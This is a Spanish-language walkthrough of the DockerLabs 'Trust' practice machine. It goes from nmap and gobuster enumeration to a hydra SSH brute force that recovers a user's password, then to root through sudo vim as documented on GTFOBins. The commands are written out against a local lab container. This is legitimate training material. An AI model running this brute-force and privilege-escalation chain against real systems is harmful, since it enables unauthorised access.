 Vamos con la primera maquina de DockerLabs, una web reciente donde podemos ejecutar las maquinas en local con docker y que sea todo mucho mas rápido y optimizado.

![dockerLabs.png](assets/dockerLabs.png)

Para poder ejecutar las maquinas necesitaremos instalar docker:

```bash
sudo apt install docker.io
```

 y para ejecutar las maquinas primero extraeremos el archivo zip que nos descargaremos de la web, a continuación entraremos en el directorio extraído y desplegaremos la maquina con el siguiente comando:
```bash
sudo bash auto_deploy.sh trust.tar
```

en caso de éxito nos mostrará el siguiente mensaje:

```bash
❯ sudo bash auto_deploy.sh trust.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

hacemos un scan general con nmap:

```bash
❯ nmap -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.46 seconds
```

vemos que solo hay dos servicios, hacemos un escaneo mas profundo en los puertos encontrados:

```bash
❯ nmap -p22,80 -Pn -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 19:11 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.17 seconds
```

obtenemos que es una web con Apache, vamos a echar un vistazo:

![apacheTrust.png](assets/apacheTrust.png)

hacemos una enumeración web con gobuster y obtenemos los siguientes resultados:

```bash
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,xml,json
```


![gobusterTrust.png](assets/gobusterTrust.png)

vamos a ver que hay en el directorio secret.php:

![webMarioTrust.png](assets/webMarioTrust.png)

la web solo muestra este mensaje que de primeras me da a pensar que hay un ussuario llamado mario, en el codigo fuente tampoco encontramos nada, asi que apuntaremos al servicio ssh con un atauqe de fuerza bruta probando el usuario mario con el rockyou.txt:

```bash
❯ hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
```

y nos da un caso exitoso:

![hydraTrust.png](assets/hydraTrust.png)

el usuario **mario** si existe y la contraseña es **chocolate**

vamos a conectarnos al ssh:

```bash
❯ ssh mario@172.17.0.2
mario@172.17.0.2s password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@2a9f78d555d6:~$ 
```
En DockerLabs no hay flags por lo que para concluir la maquina tenemos que obtener root, asi que vamos a enumerar los privilegios que tenemos como mario:

```bash
mario@2a9f78d555d6:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 2a9f78d555d6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 2a9f78d555d6:
    (ALL) /usr/bin/vim
mario@2a9f78d555d6:~$ 
```

tenemos permisos sudo para vim, consultamos en la pagina [GTFOBins](https://gtfobins.github.io/) 

![vimTrust.png](assets/vimTrust.png)

usamos la opción (a) y nos da root

![rootTrust.png](assets/rootTrust.png)

Con esto ya hemos comprometido la maquina.

